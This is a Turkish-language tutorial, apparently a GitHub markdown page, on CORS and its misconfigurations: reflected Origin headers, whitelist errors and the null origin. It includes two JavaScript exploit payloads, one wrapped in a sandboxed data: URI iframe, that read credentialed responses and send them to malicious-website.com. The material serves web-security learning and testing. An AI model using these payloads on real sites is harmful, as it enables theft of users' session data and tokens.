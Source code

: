 # CORS nedir?
CORS, SOP kısıtlamasını esnetmek için geliştirilmiş bir mekanizmadır. Tarayıcılar bir web uygulamasının kendi origin'i dışındaki bir origin'e doğrudan istek göndermesini engeller. Ancak bu günümüzde oldukça fazla gerekli olur (örnek: Frontend: example.com, API: api.example.com)

# Origin nedir?
Bir origin şu 3 parçadan oluşur:

- Protokol: `http`, `https`
- Host: `example.com`
- Port: `80`, `443`

**Örnek:**  
![alt text](image.png)

# Preflight Request Nedir?
Tarayıcının CORS kuralları kapsamında asıl isteği göndermeden önce hedef sunucudan izin alıp almadığını kontrol etmek için yaptığı bir OPTIONS isteğidir. Sunucu bu isteğe uygun Access-Control-Allow-* header'larıyla cevap verirse tarayıcı asıl isteği gönderir aksi halde işlem engellenir.

# Origin Header’ı Yansıtarak Dinamik ACAO Üretimi
Bazı uygulamalar, birden fazla domaine erişim izni vermek zorundadır. Bu genellikle gelen HTTP isteğindeki Origin header'ını okuyup bunu doğrudan yanıtta Access-Control-Allow-Origin header’ı olarak yansıtarak yapılır.

Aşağıdaki isteği ele alalım:
```http
GET /sensitive-victim-data HTTP/1.1  
Host: vulnerable-website.com  
Origin: https://malicious-website.com  
Cookie: sessionid=...  
```

Sunucu şu şekilde yanıt verirse:
```http
HTTP/1.1 200 OK  
Access-Control-Allow-Origin: https://malicious-website.com  
Access-Control-Allow-Credentials: true  
...
```

Bu header’lar, isteğin geldiği domain olan malicious-website.com alanına erişim izni verildiğini, ayrıca çerez gibi kimlik doğrulama bilgileri içeren isteklerin de kabul edildiğini belirtir (Access-Control-Allow-Credentials: true). Bu, işlemin kullanıcının oturumunda gerçekleşmesini sağlar.

Bu uygulama, Access-Control-Allow-Origin header’ında herhangi bir Origin değerini yansıtıyorsa, herhangi bir domain, hedef uygulamadan veri okuyabilir hale gelir. Eğer yanıt, bir API anahtarı, CSRF token’ı ya da benzeri hassas veri içeriyorsa, saldırgan bunu kendi web sitesine koyacağı şu JavaScript ile kolayca elde edebilir:

```javascript
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
	location='//malicious-website.com/log?key='+this.responseText;
};
```

# Origin Header'larının Ayrıştırılmasında Hatalar
Bazı uygulamalar, birden fazla origin'e erişimi desteklemek için whitelist kullanır.

Örneğin uygulama aşağıdaki gibi istek alır:
```http
GET /data HTTP/1.1
Host: normal-website.com
Origin: https://innocent-website.com
```

Uygulama, gelen Origin değerini beyaz listedeki domain'lerle karşılaştırır ve eğer uygunsa aşağıdaki gibi yanıt verir:
```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://innocent-website.com
```

Ancak CORS whitelist mantığı uygulanırken sıkça hatalar yapılır. Bazı organizasyonlar, mevcut ve gelecekteki tüm alt domain’lere izin verecek şekilde yapılandırma yapar. Bu kurallar genellikle prefix, suffix veya regez ile tanımlanır. Bu yapılandırmanın yanlış uygulanması kontrol dışı domain'lere erişim izni verilmesine yol açabilir.

Prefix/Suffix tabanlı bypasslar ve URL manipülasyon teknikleri için:
https://portswigger.net/web-security/ssrf/url-validation-bypass-cheat-sheet

Bazı uygulamalar, yerel geliştirme ortamlarını desteklemek amacıyla null origin değerine izin verebilir:
```http
GET /sensitive-victim-data
Host: vulnerable-website.com
Origin: null
```

Sunucu yanıtı aşağıdaki gibi verebilir:
```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true
```

Bu durumda, saldırgan farklı yollarla Origin: null içeren bir cross-origin istek oluşturabilir.

Aşağıdaki payload, bir data: URI’si içinde sandboxed iframe aracılığıyla null origin üretir ve hassas veriyi sızdırır:

```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,
<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
  location='malicious-website.com/log?key='+this.responseText;
};
</script>">
</iframe>
```

Bu teknikle Origin: null ile yapılan istek, sunucu tarafından kabul edilirse, oturum tanımlı isteklerle hassas veriler sızdırılabilir.

Referanslar:
https://portswigger.net/web-security/cors

https://aws.amazon.com/tr/what-is/cross-origin-resource-sharing/

Tools:
https://github.com/chenjj/CORScanner.git
